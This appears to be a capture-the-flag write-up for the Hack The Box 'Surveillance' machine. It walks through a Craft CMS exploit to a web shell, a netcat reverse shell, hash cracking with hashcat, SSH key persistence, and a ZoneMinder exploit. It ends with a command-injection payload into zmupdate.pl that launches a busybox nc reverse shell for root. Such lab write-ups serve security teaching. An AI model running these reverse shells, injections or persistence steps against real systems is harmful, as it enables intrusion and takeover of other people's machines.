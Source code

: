 # Surveillance

## Introduction <a href="#introduction" id="introduction"></a>

This writeup details the exploitation process of the "Surveillance" box on Hack The Box. The challenge is categorized as Medium difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.245 surveillance.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption><p><a href="http://surveillance.htb/">http://surveillance.htb/</a></p></figcaption></figure>

After explore the website, I found that **Powered by Craft CMS** that make me find the vulnerability. Bingo! I found it [https://github.com/Faelian/CraftCMS\_CVE-2023-41892](https://github.com/Faelian/CraftCMS\_CVE-2023-41892)

## Exploitation

```bash
python3 craft-cms.py http://surveillance.htb/
```

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption><p>Web Shell</p></figcaption></figure>

Now, we got web shell. Let go reverse shell.

```bash
#Reverse Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <YOUR_IP> <YOUR_PORT> >/tmp/f
```

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Let explore this, I Found **surveillance--2023-10-17-202801--v4.4.14.sql.zip** it might be useful. Let download it.

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

After read it, we found the username and hash password of Database.

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

### Crack the password

```bash
echo "39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec" >> hash_2.txt
```

```bash
hashcat -m 1400 hash_2.txt /usr/share/wordlists/rockyou.txt
```

* \-m 1400 (SHA-256 hashes)
* hash\_2.txt (hashed password)
* /usr/share/wordlists/rockyou.txt (wordlist)

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption><p>starcraft122490</p></figcaption></figure>

### Connect with SSH

```bash
ssh matthew@10.10.11.245
```

### User Flag

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption><p>1caf62cf720fba935d79236e8bd7b873</p></figcaption></figure>

## Privilege Escalation

### Create LinPEAS.sh

```bash
#Your localmachines
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > test.sh

chmod +x test.sh

scp test.sh matthew@IP:/home/matthew
```

### Run LinPEAS.sh

```bash
./test.sh
```

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Portforward using SSH

```bash
ssh -L 2222:127.0.0.1:8080 matthew@10.10.11.245
```

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

After see the ZoneMinder login pages, I find the vulnerability and got this one [https://github.com/rvizx/CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035)

### Exploitation

```bash
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### Create own SSH

```bash
#Your localmachines
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" 

#Victims
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
~

#Your localmachines
cat ~/.ssh/id_rsa.pub

#Victims
echo 'your_public_ssh_key' >> ~/.ssh/authorized_keys

#Your localmachines
ssh username@victim_server_ip
```

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### Check sudo -l

```bash
sudo -l
ls /usr/bin/zm*.pl
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

And I read the **zmupdate.pl** that I see this find can run the command injection.

```bash
nano /tmp/test.sh
```

```bash
#Reverse Shell
#!/bin/bash
busybox nc 10.10.16.16 1133 -e sh
```

```bash
chmod +x test.sh
```

### Run Scripts

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/test.sh)' --pass=ZoneMinderPassword2023
#Password of the Database from LinPEAS.sh
```

### Root Flag

<figure><img src="../.gitbook/assets/image (76).png" alt=""><figcaption><p>325b3e5a72f2f53f1c95915464c2bf6f</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
